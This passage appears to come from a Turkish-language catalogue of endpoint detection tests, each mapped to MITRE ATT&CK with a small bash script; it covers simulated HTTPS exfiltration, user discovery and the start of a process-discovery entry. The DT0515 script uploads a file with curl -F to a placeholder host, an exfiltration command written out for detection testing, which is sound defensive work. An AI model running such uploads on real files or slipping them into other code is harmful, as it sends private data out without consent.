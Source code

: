 
## 58. DT0515 - Exfiltrate Data HTTPS Using curl Linux - T1048
**Test Definition Analizi:**
- curl -F ile form data göndermeyi ve exfiltration parametrelerini tespit eder
- `curl -F` ile `maxDownloads` ve `autoDelete` parametrelerini kontrol eder

**MITRE ATT&CK Eşleştirmesi:**
- **Teknik:** T1048.003 - Exfiltration Over Alternative Protocol: Exfiltration Over Unencrypted/Obfuscated Non-C2 Protocol
- **Taktik:** Exfiltration

**Test Script:**
```bash
#!/bin/bash
# DT0515 Test Script
echo "[*] Testing DT0515 - Data exfiltration with curl -F"
echo "sensitive data" > /tmp/exfil.txt
curl -F "file=@/tmp/exfil.txt" "https://example.com/upload?maxDownloads=1&autoDelete=true"
rm -f /tmp/exfil.txt
```

---

## 59. DT0500 - System Owner/User Discovery
**Test Definition Analizi:**
- Sistemdeki aktif kullanıcıları keşfetmeyi tespit eder
- `users` veya `who` komutlarını kontrol eder

**MITRE ATT&CK Eşleştirmesi:**
- **Teknik:** T1033 - System Owner/User Discovery
- **Taktik:** Discovery

**Test Script:**
```bash
#!/bin/bash
# DT0500 Test Script
echo "[*] Testing DT0500 - System user discovery"
users
who
```

---

## 60. DT0520 - Process Discovery - ps - T1057
**Test Definition Analizi:**
- Process listesini görüntülemeyi tespit eder
- `ps` komutunu kontrol eder

**MITRE ATT&CK Eşleştirmesi:**
- **Teknik:** T1057 - Process Discovery
- **Taktik:** Discovery
